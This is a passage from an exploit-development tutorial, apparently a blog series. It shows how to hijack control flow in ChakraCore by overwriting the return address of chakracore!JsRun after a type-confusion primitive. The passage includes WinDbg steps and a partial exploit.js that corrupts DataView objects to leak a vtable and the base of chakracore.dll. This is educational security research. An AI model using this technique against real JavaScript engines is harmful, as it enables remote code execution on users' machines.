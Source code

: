<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion86.png" alt="">

After seeing this address, we need to find out if this is an actual `ret` instruction. To do this, we can execute our exploit within WinDbg and set a break-on-load breakpoint for `chakracore.dll`. This will tell WinDbg to break when `chakracore.dll` is loaded into the process space.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion87.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion88a.png" alt="">

After `chakracore.dll` is loaded, we can disassemble our memory address and as we can see - this is a valid `ret` address.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion89.png" alt="">

What this means is at some point during our code execution, the function `chakracore!JsRun` is called. When this function is called, `chakracore!JsRun+0x40` (the return address) is pushed onto the stack. When `chakracore!JsRun` is done executing, it will return to this instruction. What we will want to do is first execute a proof-of-concept that will overwrite this return address with `0x4141414141414141`. This means when `chakracore!JsRun` is done executing (which should happen during the lifetime of our exploit running), it will try to load its return address into the instruction pointer - which will have been overwritten with `0x4141414141414141`. This will give us control of the RIP register! Once more, to reiterate, the reason why we can overwrite this return address is because at this point in the exploit (when we scan the stack), `chakracore!JsRun`'s return address is on the stack. This means between the time our exploit is done executing, as the JavaScript will have been run (our `exploit.js`), `chakracore!JsRun` will have to return execution to the function which called it (the caller). When this happens, we will have corrupted the return address to hijack control-flow into our eventual ROP chain.

Now we have a target address, which is located `0x1768bc0` bytes away from `chakrecore.dll`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion90.png" alt="">

With this in mind, we can update our `exploit.js` to the following, which should give us control of RIP.

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
```